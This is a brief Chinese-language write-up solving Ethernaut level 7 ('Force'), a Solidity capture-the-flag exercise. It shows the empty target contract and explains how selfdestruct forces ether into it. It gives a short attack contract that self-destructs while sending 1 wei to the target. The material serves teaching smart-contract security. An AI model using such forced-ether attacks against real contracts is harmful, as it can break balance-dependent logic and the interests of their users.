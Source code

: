 ```yaml
---
title: ethernaut NO.7
tags: TeXt
---
```


 我们先来看合约代码和要求：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }

```

**要求使合约的余额大于一**

**考点：selfdestruct的使用**：*可以使一个合约被删除然后将其中的余额强制性发送给另一个合约*

攻击合约如下

```solidity
contract Hack{
    constructor(address payable  _target) payable {
        selfdestruct(_target);
    }
}
```

将1wei传入合约兵在实例地址deploy后就可以完成此题；